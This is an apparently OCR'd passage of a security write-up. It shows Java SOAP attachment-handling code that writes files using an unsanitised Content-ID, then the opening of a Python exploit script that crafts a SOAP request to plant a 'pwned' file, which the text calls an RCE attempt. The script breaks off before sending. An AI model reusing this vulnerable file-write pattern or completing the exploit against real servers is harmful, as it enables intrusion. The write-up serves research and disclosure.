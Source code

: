 ```java
private void processAtatchmentDataStream(AttachmentPart attachment) throws IOException, SOAPException {
   String attachmentName = attachment.getContentId();
   logger.debug(" processAtatchmentDataStream: Next attachment name = {}", attachmentName);
   DataHandler content = attachment.getDataHandler();
     */ 
  
  try {
     InputStream inputStream = new BufferedInputStream(content.getInputStream(), 8000);
     String attachmentFileDirectory = DirectConnectUtil.attachmentFileDirectory();
    
     attachmentFileDirectory = StringUtils.isBlank(attachmentFileDirectory) ? FileUtils.createTempDirectory("dprAttachments").getAbsolutePath() : attachmentFileDirectory;
    
     String attachmentFileLocation = attachmentFileDirectory + File.separatorChar + attachmentName.substring(1, attachmentName.length() - 1);
     File file = new File(attachmentFileLocation);
     file.createNewFile();
     OutputStream output = new BufferedOutputStream(new FileOutputStream(file));
    
     content.writeTo(output);
     output.close();
     inputStream.close();
     logger.debug(" processAtatchmentDataStream: saved attachment at attachmentFileLocation = " + attachmentFileLocation + " with size = " + file
         .length());
  }
   catch (Exception e) {
    
     throw new WebServiceException(e);
  } 
}
```

#### Theoretical Exploitation: Setup Issues Preventing Full RCE

With this information in hand, crafting a request was not a problem as the WSDL(https://localhost:7906/DataPackageReceiver/DataPackageReceiverService.svc?wsdl) gives the information about the parameters and the expected data within them. Utilizing it, the following script crafts the SOAP request that contains some required parameters, this is based on the script we used for XXE attack in the previous one.

```python
import base64
import requests
import uuid

# SOAP endpoint
url = "https://localhost:7906/DataPackageReceiver/DataPackageReceiverService.svc"

# The file to send (hello.txt)
file_path = "hello.txt"

# Create the content of the file (hello.txt)
with open(file_path, "w") as file:
    file.write("pwned")

# Read the file and encode it in Base64
with open(file_path, "rb") as file:
    file_content = file.read()
    encoded_file_content = base64.b64encode(file_content).decode('utf-8')

encoded_attachment_content = base64.b64encode(b"pwning").decode('utf-8')
```